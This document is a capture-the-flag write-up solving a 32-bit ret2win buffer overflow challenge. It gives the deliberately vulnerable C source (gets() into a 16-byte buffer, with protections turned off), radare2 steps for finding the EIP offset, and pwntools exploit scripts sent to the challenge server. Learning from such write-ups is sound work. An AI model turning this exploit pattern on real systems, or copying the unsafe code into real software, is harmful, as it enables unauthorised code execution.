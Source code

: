 # Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's ](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win)guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

<div align="center" data-full-width="false">

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>The final solve.</p></figcaption></figure>

</div>
